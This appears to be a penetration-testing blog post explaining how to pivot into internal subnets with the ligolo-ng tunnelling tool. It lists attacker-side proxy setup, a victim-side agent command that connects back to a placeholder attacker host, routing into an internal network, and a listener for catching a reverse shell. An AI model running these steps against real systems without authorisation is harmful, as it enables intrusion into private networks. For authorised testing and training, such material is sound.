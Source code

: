 ```yaml
---
layout: post
date: 2023-07-07
title: "Pivoting with ligolo"
categories: [pivoting]
tags: [ligolo, pivoting]
---
```


Pivoting is an essential part of penetration testing. Once you gain an initial foothold there may be several subnets that the outside world may not have access to and will give you further access into the domain by leveraging a tool such as ligolo which can be downloaded from [Github](https://github.com/Nicocha30/ligolo-ng). 

In order to leverage this tool you will need to download it via `git clone https://github.com/nicocha30/ligolo-ng.git` . 

You can then proceed to start, add and start the proxy server via these  commands.

Attacker Machine:
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
chmod + proxy
./proxy -autocert
```
It is also worth noting that you can change the port it listens on, as by default it will listen on port 11601.

```
./proxy -selfcert -laddr 0.0.0.0:443
```


!()[/assets/]

Victim Machine (Windows or Linux):

Upload the respective file. 
```
./agent -connect attackerip:port -ignore-cert
```
The -ignore-cert will be required if you use -selfcert.

![[Pasted image 20230707124238.png]]

You must run a few more commands on the Attacker Machine from within the proxy prompt in order to get your tunnel running.
```
session (session number)
start
```
Once all of this is done you will be able to run commands from your attacker machine as if you are in the internal network. On this network there is an internal networked connect which I can verify by typing ifconfig.
![[Pasted image 20230707124327.png]]

For this machine you must also run ```
```
sudo ip route add 192.168.110.0/24 dev ligolo
```

Now on the Attacker Machine but another terminal I can run pings on the internal network on the victims machine.

![[Pasted image 20230707124707.png]]

It also worth noting that ligolo does not use SOCK5, but instead ligolo uses GVISOR and thus is must faster than a SOCKS proxy.

You can also gain a revshell back to your client by adding a listener to your host.

This must be done from the attacker machine.
```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
```


